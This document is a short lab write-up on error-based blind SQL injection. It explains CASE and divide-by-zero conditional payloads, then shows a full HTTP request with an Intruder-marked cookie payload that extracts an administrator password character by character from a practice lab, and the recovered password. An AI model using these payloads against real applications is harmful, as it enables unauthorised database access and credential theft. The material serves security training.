


## Condition based Sql injection

In the preceding example, suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data. The preceding technique will not work, because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, it is often possible to induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition. This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false. Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

To see how this works, suppose that two requests are sent containing the following `TrackingId` cookie values in turn:

`xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`

These inputs use the `CASE` keyword to test a condition and return a different expression depending on whether the expression is true. With the first input, the `CASE` expression evaluates to `'a'`, which does not cause any error. With the second input, it evaluates to `1/0`, which causes a divide-by-zero error. Assuming the error causes some difference in the application's HTTP response, we can use this difference to infer whether the injected condition is true.

Using this technique, we can retrieve data in the way already described, by systematically testing one character at a time:

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

## Challenge

--> i added this payload in intruder

```bash
GET /filter?category=Tech+gifts HTTP/1.1
Host: acea1f411f956f08807e2da400290063.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: TrackingId=wkQ0FTyX6kLxoXL0'||(SELECT CASE WHEN (SUBSTR(password,§1§,1)='§m§') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'; session=ULjDh6MI3mR1TiRhqUDd2ls5ixNrVWLm
Upgrade-Insecure-Requests: 1
```

--> and i got this results



--> after assembling them i got this password :

`8vzkeohgdu9ilptqy1wd`


